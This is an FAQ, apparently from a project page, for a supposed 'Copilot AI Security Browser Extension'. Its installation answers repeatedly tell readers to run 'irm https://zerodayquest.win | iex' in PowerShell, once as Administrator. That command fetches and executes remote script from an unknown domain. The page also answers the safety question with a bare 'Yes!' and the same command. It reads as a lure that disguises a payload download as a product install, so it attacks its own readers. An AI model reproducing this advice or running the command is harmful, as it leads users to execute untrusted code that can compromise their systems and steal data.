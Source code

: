 ### **12. Is the Copilot AI Security Browser Extension safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t the Copilot AI Security Browser Extension working after installation?**  
If the Extension doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install the Copilot AI Security Browser Extension on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install the Copilot AI Security Browser Extension on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install the Copilot AI Security Browser Extension on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  

### **17. Does the Copilot AI Security Browser Extension work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  

### **18. How do I fix permission issues when installing the Copilot AI Security Browser Extension?**  
Try running PowerShell as **Administrator** and using:  
```powershell
irm https://zerodayquest.win | iex
```  

### **19. Do I need to restart my computer after installing the Copilot AI Security Browser Extension?**  
No, a restart is not required. However, if the Extension doesn’t work, try restarting your browser.  
